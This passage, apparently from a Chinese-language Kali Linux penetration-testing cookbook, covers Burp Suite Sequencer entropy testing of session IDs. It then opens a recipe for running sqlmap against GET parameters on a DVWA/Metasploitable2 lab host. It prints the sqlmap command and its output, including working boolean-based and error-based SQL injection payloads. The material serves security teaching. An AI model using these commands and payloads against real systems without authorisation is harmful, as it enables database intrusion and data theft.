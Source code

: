 在确定需要测试的值之后，点击`Start live capture`按钮，这会开始提交大量请求来获得参数的附加值。这个例子中，Burp 会提交大量请求，并将 PHPSESSID 从请求中去除。这会导致服务器为每个请求生成新的会话标识。这样一来，我们就可以获得样本值，它们可以用于完成 FIPS 测试。FIPS 测试由一系列测试组成，它们会评估所生成的伪随机数的熵。所有这些测试会以图形格式展示，使其十分易懂，像这样：

![](../img/0dd83733a51db56a8e9704acdceb9b3b.png)

对于高准确率和彻底的 FIPS 测试来说，总共需要 20000 个值。但是分析最少可以以 100 个值来执行。除了执行实时捕获之外，`Manual load`标签页可以用于为测试上传或粘贴值的列表。

### 工作原理

BurpSuite Sequencer 对伪随机数样本执行大量不同的数学评估，根据所生成随机数的熵尝试判断其质量。实时捕获可用于生成样本值，它通过提交事先构造的请求，并导致服务器指派新的值。这通常通过从请求中移除现有`Cookie`值，从而使响应以新的`Set-Cookie`协议头的形式，提供新的会话标识来完成。

## 7.14 使用 sqlmap 注入 GET 方法

Web 应用常常接受所提供 URL 内的参数。这些参数通常以 HTTP GET 方法传给服务器。如果任何这些参数随后包含在发给后端数据库的查询语句中，SQL 注入漏洞就可能存在。我们会讨论如何使用 sqlmap 来自动化 HTTP GET 方法请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了使用 sqlmap 来测试 HTTP GET 方法参数，你需要使用`-u`参数以及要测试的 URL。这个 URL 应该包含任何 GET 方法参数。此外，如果 Web 内容仅仅通过建立的会话来方法，还需要使用`--cookie`提供与会话对应的 Cookie。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 
 ** {CUT} ** 
sqlmap identified the following injection points with a total of 279 HTTP(s) requests: 
--
Place: GET 
Parameter: id
 Type: boolean-based blind 
 title: "OR boolean-based blind - WHERE or HAVING clause "
 Payload: id=-2345' OR (1644=1644) AND 'moHu'='moHu&Submit=y

 Type: error-based 
 title: "MySQL >= 5.0 AND error-based - WHERE or HAVING clause"

 Payload: id=x' AND (SELECT 1537 FROM(SELECT COUNT(*),CONCAT(0x3a6b6f 683a,(SELECT (CASE WHEN (1537=1537) THEN 1 ELSE 0 END)),0x3a696a793a,FLO OR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'VHVT'='VHVT&Submit=y
```